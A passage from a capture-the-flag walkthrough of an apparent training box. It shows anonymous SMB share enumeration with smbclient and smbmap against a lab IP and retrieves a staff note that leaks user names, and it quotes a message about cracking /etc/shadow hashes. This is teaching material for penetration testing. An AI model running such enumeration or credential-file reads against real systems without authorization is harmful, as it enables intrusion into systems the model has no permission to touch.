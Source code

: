 ```bash
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

#
> Scanning the Target's SMB server
9. `smbmap -L //{TARGET IP}` to enumerate and list the available shares on the target's SMB server, which revealed to us a sharename
10. `smbclient //{TARGET IP}/{SHARENAME1} -c "ls"` to execute the **ls** command in the sharename that we previously found, which revealed a text file
11. `smbclient //{TARGET IP/{SHARENAME1} -c "get {FILE3}.txt"` to execute the **get** command in the sharename that we previously found onto our local attack machine
12. `cat {FILE3}.txt` to list the contents of the text file we retrieved from the target's SMB server onto our terminal, which turned out to be an announcement message containing the name of another one of the target's users
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L //10.10.254.39               
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2
```
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.254.39/Anonymous -c "ls"
Password for [WORKGROUP\kali]:
  .                                   D        0  Thu Apr 19 13:31:20 2018
  ..                                  D        0  Thu Apr 19 13:13:06 2018
  staff.txt                           N      173  Thu Apr 19 13:29:55 2018

                14318640 blocks of size 1024. 11094332 blocks available
```
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.254.39/Anonymous -c "get staff.txt"
Password for [WORKGROUP\kali]:
getting file \staff.txt of size 173 as staff.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```
```bash
┌──(kali㉿kali)-[~]
└─$ cat staff.txt              
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

